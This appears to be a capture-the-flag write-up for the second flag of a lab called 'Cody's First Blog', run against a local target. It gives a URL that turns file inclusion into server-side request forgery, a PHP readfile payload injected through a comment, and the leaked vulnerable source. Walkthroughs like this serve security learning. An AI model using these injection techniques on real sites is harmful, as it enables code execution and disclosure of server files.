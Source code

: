 # Cody's First Blog - FLAG2

## 0x00 Modifiy URL Parameter

Try modify the url

http://127.0.0.1/xxxxxxxxxx/?page=admin.inc

To

http://127.0.0.1/xxxxxxxxxx/?page=index

The error shows

```
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 16384 bytes) in /app/index.php on line 20
```

So it will append **.php** at the end and execute the file.

## 0x01 SSRF / Inclusion Bug

http://127.0.0.1/xxxxxxxxxx/?page=http://localhost/index

Both the XSS and phpinfo() injection executed properly.

But still no flag.

![](./imgs/ssrf.jpg)

## 0x02 Read File

Add a new comment to read index.php.

``` php
<?php echo readfile("index.php")?>
```

And approve it in admin page.

![](./imgs/approve.jpg)

## 0x03 FLAG

Press **F12** to check the source again.

![](./imgs/flag.jpg)

It print out the whole index.php file.

```php
<?php
	// ^FLAG^{FLAG2}$FLAG$
	mysql_connect("localhost", "root", "");
	mysql_select_db("level4");
	$page = isset($_GET['page']) ? $_GET['page'] : 'home.inc';
	if(strpos($page, ':') !== false && substr($page, 0, 5) !== "http:")
		$page = "home.inc";

	if(isset($_POST['body'])) {
		mysql_query("INSERT INTO comments (page, body, approved) VALUES ('" . mysql_real_escape_string($page) . "', '" . mysql_real_escape_string($_POST['body']) . "', 0)");
		if(strpos($_POST['body'], '<?php') !== false)
			echo '<p>^FLAG^{FLAG1}$FLAG$</p>'; 
?>
```